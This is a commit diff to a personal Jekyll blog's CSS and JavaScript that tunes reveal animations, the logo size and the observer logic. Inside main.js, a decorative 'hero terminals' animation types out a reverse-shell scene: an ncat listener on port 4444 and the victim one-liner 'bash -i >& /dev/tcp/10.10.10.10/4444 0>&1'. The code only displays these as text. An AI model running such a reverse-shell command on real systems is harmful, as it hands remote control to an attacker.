

Before and after one commit to 0x574R/0x574R.github.io, a Jekyll site: the page built from _posts/2025-10-16-bienvenida.md, in a window 1280 px wide, cut to the strip 155-559 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed lines change nothing that is shown.

Commit message:
Add files via upload

```diff
--- a/assets/css/main.css
+++ b/assets/css/main.css
@@ -101,7 +101,7 @@
 kbd{ background:var(--card-2); border:1px solid var(--border); padding:.06rem .35rem; border-radius:6px }
 
 /* Reveal */
-.reveal{ opacity:0; transform: translateY(8px); transition: opacity .35s ease, transform .35s ease }
+.reveal{opacity:0; transform:translateY(8px); transition:opacity .28s ease, transform .28s ease}
 .reveal.is-in{ opacity:1; transform:none }
 
 
@@ -248,7 +248,7 @@
 
 /* ===== Animations ===== */
 @keyframes fadeUp { from{opacity:0; transform: translateY(8px)} to{opacity:1; transform:none} }
-.reveal{ opacity:0; transform: translateY(8px); transition: opacity .35s ease, transform .35s ease }
+.reveal{opacity:0; transform:translateY(8px); transition:opacity .28s ease, transform .28s ease}
 .reveal.is-in{ opacity:1; transform:none }
 .tilt-in{ will-change: transform; transform: perspective(800px) rotateX(2deg) translateY(6px); transition: transform .4s ease, box-shadow .4s ease }
 .tilt-in.is-in{ transform: none }
@@ -263,7 +263,7 @@
 
 /* Reveal */
 @keyframes fadeUp{ from{opacity:0; transform:translateY(8px)} to{opacity:1; transform:none} }
-.reveal{ opacity:0; transform: translateY(8px); transition: opacity .35s ease, transform .35s ease }
+.reveal{opacity:0; transform:translateY(8px); transition:opacity .28s ease, transform .28s ease}
 .reveal.is-in{ opacity:1; transform:none }
 .tilt-in{ transform: perspective(800px) rotateX(2deg) translateY(6px); transition: transform .4s ease, box-shadow .4s ease }
 .tilt-in.is-in{ transform:none }
@@ -304,7 +304,9 @@
 
 
 /* Reveal base */
-.reveal{ opacity:0; transform: translateY(8px); transition: opacity .35s ease, transform .35s ease }
+.reveal{opacity:0; transform:translateY(8px); transition:opacity .28s ease, transform .28s ease}
 .reveal.is-in{ opacity:1; transform:none; }
 
-.site .logo{ height:56px; display:block }
+.site .logo{height:64px; display:block}
+
+@media (prefers-reduced-motion: reduce){ .reveal{transition:none !important} }
--- a/assets/js/main.js
+++ b/assets/js/main.js
@@ -1,44 +1,33 @@
-// === Razor Blog JS (restored & enhanced) ===
+// === Razor Blog JS (unified engine) ===
 
-// Reveal on scroll + stagger for cards
+// Reveal engine (single IntersectionObserver) + helpers
 (function(){
-  const revealEls = Array.from(document.querySelectorAll('.reveal'));
+  const observed = new Set();
   const io = new IntersectionObserver((entries)=>{
-    entries.forEach(e=>{ if(e.isIntersecting){ e.target.classList.add('is-in'); io.unobserve(e.target); } });
-  }, {threshold: .12});
-  revealEls.forEach(el=>io.observe(el));
+    entries.forEach(e=>{
+      if(e.isIntersecting){
+        e.target.classList.add('is-in');
+        io.unobserve(e.target);
+      }
+    });
+  }, { threshold: .12 });
 
-  // Stagger cards on index grid
-  const cards = Array.from(document.querySelectorAll('.grid .card'));
-  cards.forEach((el,i)=>{ el.classList.add('reveal'); el.style.transitionDelay = (i*25)+'ms'; });
-})();
-
-
+  function addReveal(els, stagger=0){
+    els.forEach((el, i)=>{
+      if(!el.classList.contains('reveal')) el.classList.add('reveal');
+      if(stagger) el.style.transitionDelay = (i*stagger)+'ms';
+      if(!observed.has(el)){ io.observe(el); observed.add(el); }
     });
   }
 
-  async function run(){
-    attacker.textContent = "";
-    victim.textContent = ""; // victim idle
-    for(const line of seqAttacker){
-      await typeLine(attacker, line, 22);
-    }
-  }
+  // Initial reveal targets already in DOM
+  addReveal(Array.from(document.querySelectorAll('.reveal')));
 
-  // Play once when hero terminals appear
-  const grid = document.querySelector('.term-grid');
-  let played = false;
-  const io = new IntersectionObserver((entries)=>{
-    entries.forEach(e=>{
-      if(e.isIntersecting && !played){
-        played = true; run(); io.unobserve(e.target);
-      }
-    });
-  }, {threshold: .12});
-  if(grid) io.observe(grid); else run();
-})();
+  // Index grid: staggered cards
+  const gridCards = Array.from(document.querySelectorAll('.grid .card'));
+  if(gridCards.length) addReveal(gridCards, 40); // fast
 
-// Post utilities: reading time + dynamic ToC + reveal inside post
+  // Post utilities: reading time + dynamic ToC + reveal of blocks
   (function(){
     const container = document.querySelector('.post .post-body');
     if(!container) return;
@@ -48,7 +37,7 @@
     const rt = document.querySelector('[data-reading-time]');
     if(rt){ rt.textContent = Math.max(1, Math.round(words/220)) + ' min'; }
 
-  // Generate ToC
+    // ToC
     const tocRoot = document.querySelector('.toc ul');
     if(tocRoot){
       tocRoot.innerHTML = "";
@@ -65,33 +54,26 @@
       });
     }
 
-  // Reveal children of post with small stagger
-  const io = new IntersectionObserver((entries)=>{
-    entries.forEach(e=>{ if(e.isIntersecting){ e.target.classList.add('is-in'); io.unobserve(e.target);} });
-  }, {threshold: .09});
-  Array.from(container.children).forEach((el,i)=>{
-    el.classList.add('reveal');
-    el.style.transitionDelay = (i*25)+'ms';
-    io.observe(el);
-  });
+    // Reveal post blocks with small stagger (fast)
+    const blocks = Array.from(container.children);
+    addReveal(blocks, 24);
   })();
 
-// Hero terminals typing: reverse shell simulation then attacker runs `id`
+  // Hero terminals typing: reverse shell then `id`
   (function(){
     const A = document.querySelector('[data-ty="a"]'); // attacker
     const B = document.querySelector('[data-ty="b"]'); // victim
     if(!A || !B) return;
 
     const attackerSeq = [
-    {kind:'cmd', text:'ncat -lvnp 4444'},
-    {kind:'out', text:'listening on [any] 4444 ...'},
-    {kind:'out', text:'connection received from 10.10.10.42'},
-    {kind:'cmd', text:'id'},
-    {kind:'out', text:'uid=0(root) gid=0(root) groups=0(root)'}
+      "ncat -lvnp 4444",
+      "listening on [any] 4444 ...",
+      "connection received from 10.10.10.42",
+      "id",
+      "uid=0(root) gid=0(root) groups=0(root)"
     ];
-
     const victimSeq = [
-    {kind:'cmd', text:'bash -i >& /dev/tcp/10.10.10.10/4444 0>&1'}
+      "bash -i >& /dev/tcp/10.10.10.10/4444 0>&1"
     ];
 
     function typeLine(el, str, delay){
@@ -102,7 +84,7 @@
             el.textContent += str.charAt(i++);
             setTimeout(step, delay);
           } else {
-          el.textContent += "\\n";
+            el.textContent += "\n";
             resolve();
           }
         })();
@@ -112,22 +94,23 @@
     async function run(){
       A.textContent = "";
       B.textContent = "";
-    await typeLine(A, attackerSeq[0].text, 16);
-    await typeLine(A, attackerSeq[1].text, 10);
-    await typeLine(B, victimSeq[0].text, 12);
-    await typeLine(A, attackerSeq[2].text, 12);
-    await typeLine(A, attackerSeq[3].text, 16);
-    await typeLine(A, attackerSeq[4].text, 12);
+      await typeLine(A, attackerSeq[0], 14);
+      await typeLine(A, attackerSeq[1], 10);
+      await typeLine(B, victimSeq[0], 12);
+      await typeLine(A, attackerSeq[2], 12);
+      await typeLine(A, attackerSeq[3], 14);
+      await typeLine(A, attackerSeq[4], 10);
     }
 
     const grid = document.querySelector('.term-grid');
     let played = false;
-  const io = new IntersectionObserver((entries)=>{
+    const ioHero = new IntersectionObserver((entries)=>{
       entries.forEach(e=>{
         if(e.isIntersecting && !played){
-        played = true; run(); io.unobserve(e.target);
+          played = true; run(); ioHero.unobserve(e.target);
         }
       });
     }, {threshold: .10});
-  if(grid) io.observe(grid); else run();
+    if(grid) ioHero.observe(grid); else run();
   })();
+})();
```
Lines whose indentation alone changed are shown as unchanged.
